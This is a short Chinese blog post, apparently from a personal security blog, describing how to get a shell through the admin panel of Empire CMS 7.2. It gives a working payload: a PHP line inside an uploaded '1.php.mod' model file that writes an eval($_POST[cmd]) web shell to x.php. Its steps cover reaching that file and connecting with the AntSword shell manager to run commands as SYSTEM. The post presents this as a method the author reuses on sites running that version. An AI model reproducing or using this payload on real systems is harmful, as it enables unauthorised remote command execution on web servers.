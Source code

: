 ```yaml
---
layout: post
title: "帝国 cms 7.2 后台 GetShell" 
subtitle: "帝国cms 7.2 后台 GetShell"
date: 2019-07-10
author: ppbibo
category: security
---
```


[TOC]

# 帝国cms 7.2 后台 GetShell





**PS：**因为经常遇到帝国cms 7.2版本的cms ，所以这里记录下Getshell的方法



## 0x1 流程

系统设置——数据表与系统模型——管理数据表——管理系统模型——导入系统模型

![1](/static/img/diguo1.png)

![diguo2](/static/img/diguo2.png)

##0x2 流程2

在本地新建1.php.mod文件,利用fopen函数写出一个x.php文件，文件内容为fopen函数第二个参数值，然后保存。

**[File Name]** 1.php.mod 

```bash
<?fputs(fopen("x.php","w"),"<?eval(\$_POST[cmd]);?>")?>
```

![diguo3](/static/img/diguo3.png)

导入成功之后访问 `http://abc.xxx.xxx.cn/e/admin/x.php` 密码为 cmd



## 0x3 中国蚁剑连接

![diguo4](/static/img/diguo4.png)

查看权限发现为 system 直接执行相关命令

![diguo5](/static/img/diguo5.png)



